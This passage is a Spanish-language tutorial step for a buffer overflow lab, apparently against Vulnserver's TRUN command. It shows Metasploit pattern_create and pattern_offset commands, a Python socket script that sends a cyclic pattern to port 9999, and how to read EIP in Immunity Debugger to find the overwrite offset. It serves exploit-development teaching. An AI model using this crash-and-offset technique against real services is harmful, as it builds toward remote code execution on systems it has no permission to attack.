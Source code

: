 Primero, se debe generar un patrón cíclico de aproximadamente **3000 bytes**, ya que en el fuzzing previo se identificó que el servidor vulnerable colapsaba con buffers de alrededor de **2700 bytes**. Para esto, ejecutamos el siguiente comando en la terminal de **Kali Linux**:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
```

Este comando generará un patrón de 3000 bytes, que será utilizado para identificar el offset exacto.

### Envío del Patrón

Una vez que se ha generado el patrón, se debe modificar el script Python que anteriormente se utilizó en el fuzzing para que envíe este patrón en lugar de los caracteres repetitivos. A continuación se muestra un ejemplo de cómo realizar esto:

```python
#!/usr/bin/python
import sys, socket
from time import sleep

#buffer = "A" * 3000  # Reemplazar con el patrón generado
buffer = "reemplazar con el patrón generado por pattern_create"
ip_address = 'reemplazar por la ip address del target'

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_address, 9999))
    s.send(('TRUN /.:/' + buffer).encode('utf-8'))
    s.close()
except:
    print("Error al conectar con el servidor")
    sys.exit()

```

### Ejecución y Análisis

Después de enviar el patrón, el programa vulnerable debería colapsar de nuevo. En este punto, se debe abrir **Immunity Debugger** y observar el valor en el registro **EIP**. Este valor es crucial, ya que nos indica el punto exacto en el que el buffer sobrescribe el **EIP**. Un ejemplo de valor del **EIP** podría ser 386F4337.

### Cálculo del Offset

Con el valor del **EIP** identificado, el siguiente paso es utilizar la herramienta pattern_offset para encontrar el offset exacto dentro de los 3000 bytes generados. Esto se logra ejecutando el siguiente comando en **Kali Linux**:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 386F4337 -l 3000
```

Este comando devuelve el offset exacto en el que el patrón sobrescribe el **EIP**. Supongamos que el resultado es 2003. Esto indica que después de 2003 bytes, se sobrescribe el **EIP**.
